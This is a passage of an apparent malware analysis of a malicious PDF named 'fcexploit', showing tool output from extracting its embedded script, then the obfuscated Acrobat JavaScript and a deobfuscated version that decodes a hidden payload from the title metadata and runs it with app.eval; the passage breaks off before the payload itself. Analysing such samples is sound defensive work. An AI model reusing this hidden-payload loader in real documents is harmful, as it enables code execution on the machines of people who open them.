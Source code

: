 ```sh
/var/lib/gems/2.7.0/gems/origami-2.1.0/lib/origami/string.rb:416: warning: Using the last argument as keyword parameters is deprecated; maybe ** should be added to the call
/var/lib/gems/2.7.0/gems/origami-2.1.0/lib/origami/string.rb:373: warning: The called method `initialize' is defined here
[error] Object shall end with 'endobj' statement
[error] Breaking on: ">>/Parent ..." at offset 0x60c7
[error] Last exception: [Origami::InvalidObjectError] Failed to parse object (no:25,gen:0)
	 -> [Origami::InvalidDictionaryObjectError] Invalid object for field /XObject
Extracted 5 PDF streams to 'fcexploit.dump/streams'.
Extracted 1 scripts to 'fcexploit.dump/scripts'.
Extracted 0 attachments to 'fcexploit.dump/attachments'.
Extracted 0 fonts to 'fcexploit.dump/fonts'.
Extracted 0 images to 'fcexploit.dump/images'.
```
## JS deobfuscation
Using `de4js` on the extracted script gaves the following obfuscated script:
```javascript
var SSS = null;
var SS = "ev";
var titleStr = "";
$5 = "in";
app.doc.syncAnnotScan();
S$ = "ti";
if (app.plugIns.length != 0) {
    var $$ = 0;
    S$ += "tl";
    $5 += "fo";
    ____SSS = app.doc.getAnnots({
        nPage: 0
    });
    S$ += "e";
    titleStr = this.info.title;
}
var payload = "";
if (app.plugIns.length > 3) {
    SS += "a";
    var arr = titleStr.split(/U_155bf62c9aU_7917ab39/);
    for (var $ = 1; $ < arr.length; $++) {
        payload += String.fromCharCode("0x" + arr[$]);
    }
    SS += "l";
}
```
After manually deobfuscated the script results as following:
```javascript
var titleStr = "";
app.doc.syncAnnotScan();
if (app.plugIns.length != 0) {
    annots = app.doc.getAnnots({
        nPage: 0
    });
    titleStr = this.info.title;
}
var payload = "";
if (app.plugIns.length > 3) {
    var arr = titleStr.split(/U_155bf62c9aU_7917ab39/);
    for (var $ = 1; $ < arr.length; $++) {
        payload += String.fromCharCode("0x" + arr[$]);
    }
    app.eval(payload);
    /*
    payload = 
```